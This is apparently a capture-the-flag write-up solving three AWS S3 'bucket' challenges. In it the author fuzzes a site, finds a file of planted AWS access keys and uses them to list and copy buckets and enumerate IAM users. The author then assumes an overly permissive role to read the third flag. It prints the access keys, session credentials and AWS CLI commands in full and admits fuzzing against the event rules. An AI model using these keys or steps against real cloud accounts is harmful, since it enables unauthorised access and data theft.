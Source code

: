 # Bucket 1, 2, 3 (beginner, medium, hard)

This is part 1/3 in the bucket-task series. You can start your bucket journey here.

I created this cool website! Can you find all the files on it?

Author: martcl

http://www.wack-ctf-bucket-43012.s3-website.eu-north-1.amazonaws.com/

# Writeup

I started by looking around but found nothing. Then I tried fuzzing which was against the rules, but they stated `their` servers. This was Amazon server I wrongly assumed.. Oh well, I'm sorry! 

> **Note**: The current method of doing it is: 
> `aws s3 ls s3://www.wack-ctf-bucket-43012 --no-sign-request`

I fuzzed html files and txt files and found `secret.txt`

```
__Credentials for aws s3 bruker__ 
AWS Access Key ID: AKIA3CFSQ45PLMQXIYWD
AWS Secret Access Key: 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
```

Using this creds I quickly added them to my enviroment

```bash
export AWS_ACCESS_KEY_ID=AKIA3CFSQ45PLMQXIYWD
export AWS_SECRET_ACCESS_KEY=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
```

Then used them to list buckets

```bash
└─$ aws s3 ls
2023-10-26 18:16:33 flag2-wack-ctf-bucket-43012
2023-10-26 18:16:33 flag3-wack-ctf-bucket-43012
2023-10-26 18:16:33 www.wack-ctf-bucket-43012
2023-10-22 22:42:40 www.wackattackntnumarkup
```

Using AWS s3 to copy all the buckets locally:

```bash
 aws s3 cp s3://flag2-wack-ctf-bucket-43012 ./s3/flag2-wack-ctf-bucket-43012 --recursive
 aws s3 cp s3://flag3-wack-ctf-bucket-43012 ./s3/flag3-wack-ctf-bucket-43012 --recursive
 aws s3 cp s3://www.wack-ctf-bucket-43012 ./s3/www.wack-ctf-bucket-43012 --recursive
 aws s3 cp s3://www.wackattackntnumarkup ./s3/www.wackattackntnumarkup --recursive
 ```

I start looking in [flag2-wack-ctf-bucket-43012](./s3/flag2-wack-ctf-bucket-43012) and find `flag.txt`. Trying this on `Bucket 1` fails but on `Bucket 2` it works. So one of 3 down.

Now in [www.wack-ctf-bucket-43012](./s3/www.wack-ctf-bucket-43012) I find a file named [kanskje_et_til_flagg_her.html](./s3/www.wack-ctf-bucket-43012/kanskje_et_til_flagg_her.html). And there is flag for `Bucket 1`. So two down.

Now the third must be in the `flag3-wack-ctf-bucket-43012` which I did not have access to download. But I can list the files in it:

```bash
└─$ aws s3 ls s3://flag3-wack-ctf-bucket-43012 
2023-10-26 18:16:34        172 flag.txt
```

And since he bragged about making stuff public maybe this one is too? 

https://flag3-wack-ctf-bucket-43012.s3.eu-north-1.amazonaws.com/flag.txt

No access! So I start going through the AWS cli to see if I have other information:

```bash
└─$ aws iam list-users --output text
USERS   arn:aws:iam::760583612254:user/43012                   2023-10-26T16:16:32+00:00       /       AIDA3CFSQ45PDXZE45IVC   43012
USERS   arn:aws:iam::760583612254:user/martin.clementz         2023-07-29T11:32:51+00:00       /       AIDA3CFSQ45PJJOKLLIQR   martin.clementz
USERS   arn:aws:iam::760583612254:user/serverless-xss          2023-10-15T14:47:24+00:00       /       AIDA3CFSQ45PI5MBA4CQA   serverless-xss
USERS   arn:aws:iam::760583612254:user/strapi-cms-deployment   2023-07-29T11:51:15+00:00       /       AIDA3CFSQ45PPODLWZGA6   strapi-cms-deployment

└─$ aws iam list-access-keys  --user 43012 --output text
ACCESSKEYMETADATA       AKIA3CFSQ45PLMQXIYWD    2023-10-26T16:16:33+00:00       Active  43012

└─$ aws iam list-user-policies --user-name 43012 --output text
POLICYNAMES     CTF_USER_ROLE

└─$ aws sts get-caller-identity --output text
760583612254    arn:aws:iam::760583612254:user/43012    AIDA3CFSQ45PDXZE45IVC

└─$ aws iam list-roles --output text

aws sts assume-role --role-arn arn:aws:iam::760583612254:role/flag3-role --external-id nullcon-external-id --role-session-name test

└─$ aws sts assume-role --role-arn arn:aws:iam::760583612254:role/flag3-role --external-id nullcon-external-id --role-session-name test

```

But when running `aws iam list-roles` I found a role named `flag3-role`. Then I see that I have access to assume that role for a short period of time.

```json
{
    "Path": "/",
    "RoleName": "flag3-role",
    "RoleId": "AROA3CFSQ45PKH3O6M5ZL",
    "Arn": "arn:aws:iam::760583612254:role/flag3-role",
    "CreateDate": "2023-10-26T16:16:33Z",
    "AssumeRolePolicyDocument": {
        "Version": "2012-10-17",
        "Statement": [
            {
                "Effect": "Allow",
                "Principal": {
                    "AWS": "*"
                },
                "Action": "sts:AssumeRole"
            }
        ]
    },
    "MaxSessionDuration": 3600
}
```

Assuming role gives a JSON element with a new access key and secret.

```bash 
aws sts assume-role --role-arn arn:aws:iam::760583612254:role/flag3-role --role-session-name test
```

Copying those and exporting to enviroment:

```
export AWS_ACCESS_KEY_ID=ASIA3CFSQ45PNXNRN44Y
export AWS_SECRET_ACCESS_KEY=EB2KWuyFMa1lpER+9LdcKLjOxJqFlS5bq6Si1Saq

```

I now have access to copy the 3rd flag:

```
aws s3 cp s3://flag3-wack-ctf-bucket-43012/flag.txt
```

Bingo!

# Flag

```
1: wack{this_bucket_should_not_have_important_creds}
2: wack{leaked_creds_can_get_you_access}
3: wack{i_assumed_u_was_good}
```
 
